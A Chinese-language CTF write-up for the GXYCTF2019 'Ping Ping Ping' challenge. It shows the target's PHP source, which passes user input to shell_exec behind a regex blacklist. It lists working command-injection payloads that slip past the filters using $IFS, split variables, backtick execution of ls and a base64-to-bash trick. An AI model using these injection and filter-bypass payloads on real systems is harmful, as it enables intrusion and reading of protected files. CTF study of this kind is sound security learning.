 ### [GXYCTF2019]Ping Ping Ping

这题也是命令注入，但是过滤了东西，；号和ls没被过滤

一开始只看到过滤了空格和符号

用ls看到了有index.php和flag.php两个文件，初始读取，发现过滤了flag，先查看index

```
/?ip=127.0.0.1;cat$IFS$1index.php

/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}

?>
```

发现过滤了

```
& ? / * < x{00}~x{1f} '  " \ {} [] () 空格
flag
```

但是发现源码中有一个变量a，可以尝试用这个来绕过

一个个替换不行，用g是可以的

```bash
?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
```

查看wp发现用两个变量来替换，发现其实不用a也可以（一开始以为是直接输出，没想到是在源代码里orz，还以为出问题了

```bash
/?ip=127.0.0.1;c=ag;b=fl;cat$IFS$1$b$c.php
```

这里还可以用内联执行，会将cat的结果输出到ls中，然后全部输出

```bash
?ip=127.0.0.1;cat$IFS`ls`
```

看wp还有一种进阶的
使用base64加密cat flag.php，来绕过正则匹配
这里的逻辑是，先echo输出base64，结果当作下一个base64解码的输入，bash就是将解码出来的当作脚本执行
